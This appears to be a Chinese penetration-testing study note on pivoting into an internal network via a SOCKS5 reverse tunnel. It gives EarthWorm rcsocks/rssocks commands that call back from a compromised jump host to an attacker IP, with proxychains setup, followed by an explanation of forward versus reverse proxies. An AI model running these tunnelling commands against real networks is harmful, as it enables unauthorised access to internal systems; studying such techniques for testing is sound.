

### socks5

> [通过SOCKS代理渗透整个内网 - 狂客 - 博客园 (cnblogs.com)](https://www.cnblogs.com/kuangke/p/11133693.html)


四步走

1. 攻陷一台跳板机
2. kali上添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口。
3. web服务器上启动SOCKS5服务，并反弹到kali的1234端口上。
4. 配置proxychains.conf  /etc/proxychains.conf  去掉dynamic_chain的注释 添加代理socks5 127.0.0.1 1080

> [终于有人把正向代理和反向代理解释的明明白白了！-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1418457)

> 工具：**EarthWorm**
>
> [idlefire/ew: 内网穿透(跨平台) (github.com)](https://github.com/idlefire/ew)
>
> proxychains_win
>
> [proxychains for windows 用法 - 下站见 (xiazhanjian.com)](https://www.xiazhanjian.com/archives/proxychainsforwindows.html)
>
> [EarthWorm(ew)使用教程 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/259634.html)
>
> [内网渗透：使用ew实现socks代理 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/234254.html)

一次具体实施（似乎不太对）:

1.在win10攻击机上运行：

```
ew_for_Win -s rcsocks -l 1080 -e 1234
```

添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口

2.在攻陷的跳板机上：

```
ew_for_Win -s rssocks -d 100.1.1.101 -e 1234
```

跳板机上启动SOCKS5服务，并反弹到IP地址为100.1.1.101（攻击机）的1234端口上。

3.攻击机启动proxychains：


使用psexec进行远程连接


代理与反向代理：



**正向代理（forward proxy）：是一个位于客户端和目标服务器之间的服务器(代理服务器)，为了从目标服务器取得内容，客户端向代理服务器发送一个请求并指定目标，然后代理服务器向目标服务器转交请求并将获得的内容返回给客户端。**

**所以，正向代理，其实是"代理服务器"代理了"客户端"，去和"目标服务器"进行交互。**

目标服务器是不知道真正的客户端是谁的


**反向代理：是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个反向代理服务器。**

**所以，反向代理，其实是"代理服务器"代理了"目标服务器"，去和"客户端"进行交互。**

客户端是不知道真正的目标服务器是谁的

#### **正向代理和反向代理的区别**


虽然正向代理服务器和反向代理服务器所处的位置都是客户端和真实服务器之间，所做的事情也都是把客户端的请求转发给服务器，再把服务器的响应转发给客户端，但是二者之间还是有一定的差异的。


1、**正向代理其实是客户端的代理**，帮助客户端访问其无法访问的服务器资源。**反向代理则是服务器的代理**，帮助服务器做负载均衡，安全防护等。


2、**正向代理一般是客户端架设的**，比如在自己的机器上安装一个代理软件。而**反向代理一般是服务器架设的**，比如在自己的机器集群中部署一个反向代理服务器。


3、**正向代理中，服务器不知道真正的客户端到底是谁**，以为访问自己的就是真实的客户端。而在**反向代理中，客户端不知道真正的服务器是谁**，以为自己访问的就是真实的服务器。


4、正向代理和反向代理的作用和目的不同。**正向代理主要是用来解决访问限制问题。而反向代理则是提供负载均衡、安全防护等作用。二者均能提高访问速度。**